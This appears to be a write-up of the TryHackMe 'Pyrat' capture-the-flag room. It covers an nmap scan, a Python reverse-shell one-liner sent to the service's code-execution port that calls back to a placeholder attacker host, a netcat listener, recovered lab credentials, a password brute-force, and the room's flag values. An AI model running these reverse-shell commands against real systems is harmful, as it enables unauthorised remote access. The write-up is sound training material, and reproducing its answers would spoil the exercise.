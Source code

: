 # Day 8
---

## **Room:** [Pyrat](https://tryhackme.com/room/pyrat)

> **Prompt**
>
> > Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.
---

### Walkthrough

After I ran the Nmap scan:
```bash
nmap -sV -sC 10.201.33.16
```
I found these open ports:

>22 — ssh (OpenSSH)

>8000 — http-alt (SimpleHTTP)

I edited /etc/hosts with sudo nano /etc/hosts so pyrat.thm pointed to 10.201.33.16, then browsed to http://pyrat.thm:8000/. The web page gave a clue: “Try a more basic connection!” Attempting to connect to port 22 returned “This address is restricted,” so I focused on the HTTP service.

I used a reverse shell to get a remote shell. The Python one-liner I used on the target (with the attacker IP and port replaced) was:

```bash
socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])
```
I connected from the web interface with:
```bash
nc pyrat.thm 8000
socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("myhost",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
On my side I listened with:
```bash
nc -lvnp 1337
```
Using these commands I gained access to the host. I ran linPEAS and found a hidden .git directory at /opt/dev. From the git history I recovered credentials for the user think: _TH1NKINGPirate$_. I used that password to SSH into the machine as think and found the first flag:
```text
996bdb1f619a68361417cabca5454705
```
While inspecting the git repository, I restored a deleted file from commit 0a3c36d66369fd4b07ddca72e5379461a63470bf and recovered this snippet:
```python
def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e
```
From the repository I found the GitHub account joselmwdf@github.com/pyrat. The service exposed an admin login on the host via nc pyrat.thm 8000. After a few wrong attempts I realized the service leaked hints on failed passwords, so I wrote a Python script to brute-force using those hints. I recovered the admin password:
```nginx
abc123
```
With the root credentials I obtained the final root flag:
```text
ba5ed03e9e74bb98054438480165e221
```

